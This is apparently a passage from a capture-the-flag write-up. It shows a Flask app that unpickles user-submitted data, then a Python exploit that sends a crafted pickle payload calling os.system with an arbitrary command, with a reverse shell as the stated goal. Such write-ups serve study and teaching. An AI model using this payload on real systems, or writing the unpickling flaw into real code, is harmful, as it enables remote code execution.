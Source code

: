 ```python
            print "Char: {}]\nQuote:{}".format(char,quote)
            if not char or not quote:
                error = True
            elif not any(c.lower() in char.lower() for c in WHITELIST):
                error = True
            else:
                # TODO - Pickle into dictionary instead, `check` is ready
                #p_id = base64.b64encode(char + quote)[:10]
                p_id = md5(char + quote).hexdigest()
                outfile = open("/tmp/" + p_id + ".p", "wb")
		outfile.write(char + quote)
		outfile.close()
	        success = True
        except Exception as ex:
            error = True

    if error:
        return "<html><p1>error</p1></html>"
    else:
        return "<html><p1>success</p1></html>"
    #return "render_template("submit.html", error=error, success=success)

@app.route("/check", methods=["POST"])
def check():
    print request.form["id"]
    path = "/tmp/" + request.form["id"] + ".p"
    data = open(path, "rb").read()

    if "p1" in data:
        item = cPickle.loads(data)
    else:
        item = data
    print item
    return "Still reviewing: " + item

if __name__ == "__main__":
    app.run(host="0.0.0.0")
```
(it may be a little modified, but the core parts are there.)
So with this version running locally, I continued developing my exploit to get a reverse shell, and after a couple of minutes, I achieved this: 

```python
import requests
#import base64
from hashlib import md5

PATH_REMOTE = "http://10.10.10.70/{}"
PATH_LOCAL = "http://192.168.0.15:5000/{}"
REMOTE = True

def submit_exploit(cmd):
    action = 'submit'
    char = "S'homer'\np1\ncos\nsystem\n(S'{cmd}'\ntRS'marge'\np1\n".format(cmd=cmd)
    quote = '.'
    payload = "character={char}&quote={quote}".format(char=char,quote=quote)
    headers = {'Content-type': 'application/x-www-form-urlencoded'}
    path = PATH_REMOTE.format(action) if REMOTE else PATH_LOCAL.format(action)
    print payload
    r = requests.post(path, data=payload, headers=headers)
    if r.status_code == 200 and ("thank you for your suggestion" in r.text.lower() or 'success' in r.text.lower()): 
        print "[+] Payload successfully sent. Command: {cmd}".format(cmd=cmd)
        #return base64.encodestring(char+quote)[:10]
```